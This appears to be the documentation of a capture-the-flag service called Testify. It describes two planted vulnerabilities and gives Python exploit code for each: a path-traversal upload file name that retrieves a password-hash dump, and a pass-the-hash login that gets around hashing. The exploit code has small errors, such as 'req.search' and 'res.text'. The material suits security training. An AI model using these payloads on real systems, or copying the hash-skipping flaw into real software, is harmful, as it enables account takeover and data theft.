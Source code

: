 Testify Service documentation
======================

# <ins>Vulnerabilities

The Testify Service consists of two different Vulnerabilities which must be exploited after each other to get access to
the FLAGSTORE

## VULN #1: User Password Hash Exposure

- Category: Sensitive Data Exposure
- Difficulty: Medium

When registering a new user, a `.sql` dump file of the user database containing the password hashes is created.  
The attacker can retrieve this dump file by using a modified file name when uploading his ID in the appointments
section.

## VULN #2: Pass-The-Hash

- Category: Authentication
- Difficulty: Medium

The password is not allowed to contain any special characters other than ASCII. If the user passes a password string,
that does include non-ASCII characters (*e.g. a password hash obtained by VULN#1*) the hashing of the input password
string is skipped and directly compared to the hash in the user credential databse.

# <ins>Exploits

Two different exploits for VULN#1 and VULN#2 need to be run after each other to obtain a flag.

## VULN #1 :

1. Make an appointment containing a file with arbitrary content but using the filename `../online_users/dump.sql`
2. In the appointments overview section: Use the *Download ID* button to download the hijacked `dump.sql` file

### Code

```
    def get_dump_file():
        filename = '../online_users/dump.sql'
        session_id = register(user, password)
        data = {
            'prename': 'Paul',
            'lastname': 'Meyer',
            'date': '2021-05-06',
            'time': '02:56'
        }
        cookies = {
            'sessionID': session_id,
            'username': user
        }
        
        files = {'id_image': (filename, 'filestring', 'application/octet-stream')}
        req = requests.post('http://localhost:6597/make_appointment', data=data, files=files, cookies=cookies)
        result = req.search('Successfully made appointment &lt;(.*)&gt', res.text)
        url = 'http://localhost:6597/get_id' + result.group(1)

        download = requests.get(url, allow_redirects=True, cookies=cookies)
        return download.content
```

## VULN #2 :

1. Retrieve a user/hash pair from .sql dump file using VULN #1
2. Pass this hash as base64 to `/login` route.
3. Search response appointment content for flag

### Code

```
    def pass_the_hash(user, hash):
        obj = {
                'username': user,
                'password': base64.b64encode(bytes.fromhex(hash)).decode('ascii'),
                'login': 'signin'
        }
        req = requests.post('http://localhost:6597/login', data=obj)
        return req.text
```